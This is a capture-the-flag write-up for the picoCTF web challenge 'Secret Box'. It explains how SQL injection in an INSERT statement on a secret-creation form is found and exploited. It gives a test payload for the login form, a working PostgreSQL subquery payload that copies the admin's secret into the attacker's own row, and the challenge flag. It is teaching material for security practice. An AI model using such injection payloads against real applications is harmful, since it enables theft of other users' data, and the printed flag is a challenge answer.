






# picoCTF Secret Box

**Category**: Web Exploitation

**Difficulty**: Medium

**Author**: Janice He

---

## Challenge Description

> This secret box is designed to conceal your secrets. It's perfectly secure — only you can see what's inside. Or can you? Try uncovering the admin's secret.

---

## Reconaissance

Navigation to the challenge instance reveals a landing page for the Secret Vault.




The application exposes three main routes:


| Route                                 | Function                      |
|---------------------------------------|-------------------------------|
| /<br /><br /><br /><br /><br /><br /> | Landing page                  |
| <br />/login<br />                    | Authenticate an existing user |
| <br />/register<br />                 | Create a new account          |
| <br /><br /><br />/secret/new         | Create a new secret           |
| /secret                               | View your secrets             |

---

## Vulnerability Analysis

### Login - Not Vulnerable

The first instinct is to test the login form for SQL injection



Testing standard payloads such as `' OR 1=1` against the login form produces no result. The login query uses parameterised statements, which correctly bind user input as data rather than interpolating it into the query string. The login endpoint is not injectable.

### Secret Creation - Vulnerable

After register a new count, dashboard show empty secret list.



Click Navigating to the "Create New Secret" page. Examining the error message produced when injecting a single quote into this field exposes the raw backend query:

```
error: INSERT INTO secrets(owner_id, content) VALUES (
  '6ae7175b-dbbd-431b-b685-abd71fc7327c',
  'admin'--'
) - syntax error at end of input
```



The `content` parameter is **concatenated directly into the SQL String** - there is no parameterisation and no sanitisation. This is a textbook unsanitised string interpolation vulnerability in an **INSERT** statement.

The server-side query is effectively constructed as:

```
`INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')`
```

Because the content value is interpolated with no escaping, closing the string literal with a single quote and appending arbitrary SQL is trivially possible.

---

## Exploitation

### Identifying the Admin's Owner ID

The admin's owner_id UUID was obtained from the challenge context:

```
e2a66f7d-2ce6-4861-b4aa-be8e069601cb

```

### Constructing the Payload

The goal is to make the INSERT statement store the result of a SELECT subquery - specifically, the admin's secret - as the content of out own secret row.

The payload uses PostgreSQL string concatenation (`||`)to embed a subquery inside the `content` value:

```
' || (SELECT content FROM secrets WHERE owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb') || '
```

When injected, the full query becomes:

```
INSERT INTO secrets(owner_id, content) VALUES (
  'your-uuid-here',
  '' || (SELECT content FROM secrets WHERE owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb') || ''
)
```

The database evaluates the subquery, retrives the admin's flag, and stores it as your own secret.

### Payload Submission

The payload was entered into the "Create A New Secret" content field and submitted.



---

## Result

Returning to the vault dashboard, the secret stored under your account now contains the admin's flag — retrieved directly from the database via the injected subquery.



```
picoCTF{sq1_1nject10n_64a60617}
```
